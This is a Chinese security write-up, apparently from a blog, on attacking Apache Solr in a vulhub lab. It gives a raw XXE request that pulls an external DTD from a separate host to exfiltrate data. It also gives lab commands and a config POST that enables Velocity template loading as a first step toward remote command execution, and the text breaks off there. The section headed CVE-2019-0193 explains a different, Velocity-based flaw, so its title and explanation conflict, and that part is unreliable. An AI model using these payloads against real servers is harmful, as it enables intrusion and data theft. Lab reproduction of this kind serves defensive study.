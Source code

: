 ![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDBbVs0l4IFsptHOgpXLfr0Yy9tZ0I7KY1edYzg8g3ibQI0ClBib12nW4KgqW1Z4KrJz6DmWpRqT1ibJQ/640?wx_fmt=png)

```
GET /solr/demo/select?&q=%3C%3fxml+version%3d%221.0%22+%3f%3E%3C!DOCTYPE+root[%3C!ENTITY+%25+ext+SYSTEM+%22http%3a%2f%2f192.168.50.167%2f1.dtd%22%3E%25ext%3b%25ent%3b]%3E%3Cr%3E%26data%3b%3C%2fr%3E&wt=xml&defType=xmlparser HTTP/1.1
Host: 192.168.50.248:8983
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:82.0) Gecko/20100101 Firefox/82.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDBbVs0l4IFsptHOgpXLfr0YRvNbp1YlaM980ibQh2f9d3FVDP5B58MgAOZwgnxWhzZ5WxJ7tcHPneQ/640?wx_fmt=png)

**CVE-2019-0193 远程命令执行漏洞**

****漏洞简述****

漏洞出现在 Apache Solr 的 DataImportHandler，该模块是一个可选但常用的模块，用于从数据库和其他源中提取数据。它具有一个功能，其中所有的 DIH 配置都可以通过外部请求的 dataConfig 参数来设置。由于 DIH 配置可以包含脚本，因此攻击者可以通过构造危险的请求，从而造成远程命令执行。

****影响版本****

Apache Solr < 8.2.0  
Apache Solr 5.x - 8.2.0，存在 config API 版本

**漏洞原理**

该漏洞的产生是由于两方面的原因：  
当攻击者可以直接访问 Solr 控制台时，可以通过发送类似 / 节点名 / config 的 POST 请求对该节点的配置文件做更改。  
Apache Solr 默认集成 VelocityResponseWriter 插件，在该插件的初始化参数中的 params.resource.loader.enabled 这个选项是用来控制是否允许参数资源加载器在 Solr 请求参数中指定模版，默认设置是 false。  
当设置 params.resource.loader.enabled 为 true 时，将允许用户通过设置请求中的参数来指定相关资源的加载，这也就意味着攻击者可以通过构造一个具有威胁的攻击请求，在服务器上进行命令执行。

******漏洞复现******

使用 docker 搭建的 vulhub 靶场  
1. 创建名为 test 的 Core

```
docker-compose exec solr bash bin/solr create_core -c test -d example/example-DIH/solr/db
```

2. 搭建好后访问页面。默认端口为 8983

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDBbVs0l4IFsptHOgpXLfr0Y8RjYFeMdR1ZSVia3d63CvGIu9B4j0nO09seYjyyh9wlibpXjRrMwZWJA/640?wx_fmt=png)

3. 选择刚创建的 text 核心，直接构造 POST 请求，在 / solr/test/config 目录下 POST 请求发送以下数据 (修改 Core 的配置)

```
{
  "update-queryresponsewriter": {
    "startup": "lazy",
    "name": "velocity",
    "class": "solr.VelocityResponseWriter",
    "template.base.dir": "",
    "solr.resource.loader.enabled": "true",
    "params.resource.loader.enabled": "true"
  }
}
```
